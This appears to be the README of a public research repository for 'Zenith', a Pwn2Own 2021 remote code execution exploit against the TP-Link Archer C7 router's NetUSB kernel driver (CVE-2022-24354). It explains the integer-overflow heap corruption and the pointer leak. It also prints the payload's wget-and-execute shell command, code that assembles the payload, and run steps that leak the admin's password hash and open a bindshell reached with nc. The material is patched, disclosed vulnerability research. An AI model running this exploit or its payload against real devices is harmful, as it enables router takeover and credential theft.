



# Zenith: Pwn2Own TP-Link AC1750 Smart Wi-Fi Router Remote Code Execution Vulnerability
Zenith is an exploit I wrote to compromise the [TP-Link AC1750 Smart Wi-Fi Router](https://www.tp-link.com/us/home-networking/wifi-router/archer-c7/) which was part of the **Routers** / **LAN** category in the [Pwn2Own Austin 2021](https://www.zerodayinitiative.com/blog/2021/8/11/pwn2own-austin-2021-phones-printers-nas-and-more) contest.

It exploits an integer overflow that results in a heap-buffer overflow in a `kmalloc-128` slab cache in the NetUSB driver which is authored by the [KCodes](https://www.kcodes.com/product/1/36) company. The driver listens on the `br-lan` interface on TCP port 20005 and parses attacker controlled data. It has been tested against the [Archer C7(US)_V5_210519](https://static.tp-link.com/upload/firmware/2021/202108/20210820/Archer%20C7(US)_V5_210519.zip) firmware that was published on August 20 2021 (you can find the [NetUSB.ko](bin/NetUSB.ko) binary file in this repository as well).



The vulnerability was fixed by [TP-Link in January 2022](https://www.tp-link.com/us/support/download/archer-c7/#Firmware) and was assigned [CVE-2022-24354](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-24354) / [ZDI-22-264](https://www.zerodayinitiative.com/advisories/ZDI-22-264/).




## Overview of the issue

I will probably try to do a full write-up of the vulnerability and how I was able to exploit it in an upcoming article on [doar-e.github.io](https://doar-e.github.io/), stay tuned!

The bug is in the *SoftwareBus_dispatchNormalEPMsgOut* function, here is a snippet:

```C
void *SoftwareBus_dispatchNormalEPMsgOut(SbusConnection_t *SbusConnection, char HostCommand, char Opcode)
{
  // ...
  switch (OpcodeMasked) {
    case 0x50:
        if (SoftwareBus_fillBuf(SbusConnection, ReceiveBuffer, 4)) {
          ReceivedSize = _bswapw(*(uint32_t*)ReceiveBuffer);
            AllocatedBuffer = _kmalloc(ReceivedSize + 17, 208); // <--- ReceivedSize is a 32-bit integer, the computation can overflow
            if (!AllocatedBuffer) {
                return kc_printf("INFO%04X: Out of memory in USBSoftwareBus", 4296);
            }
        [...]
            if (!SoftwareBus_fillBuf(SbusConnection, AllocatedBuffer + 16, ReceivedSize)) // <---- This is basically a `recv()` which leads to an overflow of the `AllocatedBuffer`
```

The exploit reaches this function via the following call chain:
```
-> tcpConnector (@0x10AAC)
  -> run_init_sbus (@0xCA78)
    -> initUsbSoftwareBus (@0xC700)
      -> ThreadHandleSbusConnection (@0xC5F4)
        -> SoftwareBus_dispatchNormalEPMsgOut (@0xADF0)
```

To exploit the issue, Zenith overflows an adjacent `wait_queue_head_t.head.next` structure that is placed by the socket stack of the Linux kernel with the address of a crafted `wait_queue_entry_t` under our control (`Trasher` class in the exploit code).

```C
struct wait_queue_head {
	spinlock_t		lock;
	struct list_head	head;
};

struct wait_queue_entry {
	unsigned int		flags;
	void			*private;
	wait_queue_func_t	func;
	struct list_head	entry;
};
```

This structure has a function pointer that I use to hijack execution and redirect the flow to a fixed location, in a large kernel heap chunk where I staged the payload previously. The function invoking the function pointer is `__wake_up_common` as you can see below:

```C
static void __wake_up_common(wait_queue_head_t *q, unsigned int mode,
			int nr_exclusive, int wake_flags, void *key)
{
	wait_queue_t *curr, *next;

	list_for_each_entry_safe(curr, next, &q->task_list, task_list) {
		unsigned flags = curr->flags;

		if (curr->func(curr, mode, wake_flags, key) &&
				(flags & WQ_FLAG_EXCLUSIVE) && !--nr_exclusive)
			break;
	}
}
```

Here is what it looks like in gdb once `q->head.next/prev` has been corrupted:
```text
(gdb) break *__wake_up_common+0x30 if ($v0 & 0xffffff00) == 0xdeadbe00

(gdb) break sock_recvmsg if msg->msg_iov[0].iov_len == 0xffffffff

(gdb) c
Continuing.
sock_recvmsg(dst=0xffffffff85173390)

Breakpoint 2, __wake_up_common (q=0x85173480, mode=1, nr_exclusive=1, wake_flags=1, key=0xc1)
    at kernel/sched/core.c:3375
3375    kernel/sched/core.c: No such file or directory.

(gdb) p *q
$1 = {lock = {{rlock = {raw_lock = {<No data fields>}}}}, task_list = {next = 0xdeadbee1,
    prev = 0xbaadc0d1}}

(gdb) bt
#0  __wake_up_common (q=0x85173480, mode=1, nr_exclusive=1, wake_flags=1, key=0xc1)
    at kernel/sched/core.c:3375
#1  0x80141ea8 in __wake_up_sync_key (q=<optimized out>, mode=<optimized out>,
    nr_exclusive=<optimized out>, key=<optimized out>) at kernel/sched/core.c:3450
#2  0x8045d2d4 in tcp_prequeue (skb=0x87eb4e40, sk=0x851e5f80) at include/net/tcp.h:964
#3  tcp_v4_rcv (skb=0x87eb4e40) at net/ipv4/tcp_ipv4.c:1736
#4  0x8043ae14 in ip_local_deliver_finish (skb=0x87eb4e40) at net/ipv4/ip_input.c:226
#5  0x8040d640 in __netif_receive_skb (skb=0x87eb4e40) at net/core/dev.c:3341
#6  0x803c50c8 in pcnet32_rx_entry (entry=<optimized out>, rxp=0xa0c04060, lp=0x87d08c00,
    dev=0x87d08800) at drivers/net/ethernet/amd/pcnet32.c:1199
#7  pcnet32_rx (budget=16, dev=0x87d08800) at drivers/net/ethernet/amd/pcnet32.c:1212
#8  pcnet32_poll (napi=0x87d08c5c, budget=16) at drivers/net/ethernet/amd/pcnet32.c:1324
#9  0x8040dab0 in net_rx_action (h=<optimized out>) at net/core/dev.c:3944
#10 0x801244ec in __do_softirq () at kernel/softirq.c:244
#11 0x80124708 in do_softirq () at kernel/softirq.c:293
#12 do_softirq () at kernel/softirq.c:280
#13 0x80124948 in invoke_softirq () at kernel/softirq.c:337
#14 irq_exit () at kernel/softirq.c:356
#15 0x8010198c in ret_from_exception () at arch/mips/kernel/entry.S:34
```

All of this is possible because there is no kernel ALSR and the heap is writable / executable (no NX).

Zenith also leverages NetUSB's debug interface which is another socket listening on the port 33344. It basically sends `printk` string over this socket and leaks kernel-mode pointers of various allocations where we are able to place controlled data at. This is used by the `Leaker` class in the exploit code.

Zenith also defragments the `kmalloc128` slab cache using a very basic spraying primitive to fill holes.

Finally, the payload executed is available in [src/sh.remote.asm](src/sh.remote.asm) which basically executes `/bin/sh -c "wget http://{local_ip}:8000/pwn.sh && chmod +x pwn.sh && ./pwn.sh"`.

## Running the exploit

### Setting the environment up

To install the dependencies, run the below commands on an Ubuntu machine 20.04:
- `$ sudo apt install binutils-mips-linux-gnu binutils python3-pip`
- `$ pip3 install pycrypto`

The binutils are used by the exploit to generate the payload at runtime as it needs to include the IP address of the HTTP server the exploit reaches to (cf `prepare_payload`).

```py
def prepare_payload(name, ip_local):
    '''Read the payload pattern, assemble it and dump the assembled bytes.'''
    # Replace the local ip address in the payload
    r = open(name, 'r').read()
    tmp_payload = 'tmp.asm'
    with open(tmp_payload, 'w') as f:
        f.write(r.format(ip_local = ip_local))

    # Compile the payload
    os.system(f'mips-linux-gnu-as -march=mips32r2 {tmp_payload} -o sh.o')
    os.system(f'mips-linux-gnu-ld --omagic --section-start=.text={hex(addr_payload)} sh.o -o sh')

    # Dump the payload
    os.system('readelf -x .text sh > payload.txt')

    # Read the payload
    payload = read_payload('payload.txt',)

    # Clean-up the payload
    os.system(f'rm sh.o sh {tmp_payload} payload.txt')

    # Fix ip in pwn.sh.
    os.system(f'rm pwn.sh')
    r = open('pwn_base.sh', 'r').read()
    with open('pwn.sh', 'w') as f:
        f.write(r.format(ip_local = ip_local))

    return payload
```

### Am I vulnerable?

To verify if your router is vulnerable it is recommended to run [src/zenith-poc.py](src/zenith-poc.py).

```bash
$ python3 zenith-poc.py --target 192.168.127.1
```

If your device is vulnerable, the lights should stay on for a few seconds after the script is done then turn off and the router should automatically reboot. Pay attention, because it can be a bit subtle to see :)

<p align='center'>

</p>

### Running Zenith
**Disclaimer: The exploit isn't reliable and that's it unfortunately failed to land during the contest 😅**

For every attempt:
1. Boot the device and start a stopwatch to wait for 3min. This is the time required for the device to reach a stable booted state.
2. Run the exploit when the stopwatch hit the 3min mark.

To run the exploit, open three different shells (see [pics/zenith.gif](pics/zenith.gif)):
1. **One shell to throw the exploit**.
    - Run [src/zenith.py](src/zenith.py) with `--target <IP of router>` and `--local <IP of where it's thrown from>`.
2. **One shell to start an HTTP server**.
    - In [src](src/), run `python3 -m http.server`. When successful, the exploit will make an HTTP request to this server in order to download [pwn.sh](src/pwn.sh) (that's what the `--local` argument is used).
3. **One shell to connect to the bindshell when the attempt is successful**.
    - Right after receiving the HTTP request leaking the `admin`'s shadow, you can try to connect to the bindshell with `nc <IP of router> 31337 -v`.


The exploit waits for 1:30 minute before killing itself. There are three ending conditions:
1. It worked and reached out to the HTTP server to grab the `pwn.sh` file, leaked the `admin`'s shadow and is listening on the bindshell.
2. The router crashed and rebooted. All the sockets will time out and will spew the output; at which point you can kill the exploit. This is a failed attempt.
3. The router didn't crash but no HTTP requests were received before the exploit terminated itself. This is a failed attempt.

## Authors
* Axel '[0vercl0k](https://twitter.com/0vercl0k)' Souchet
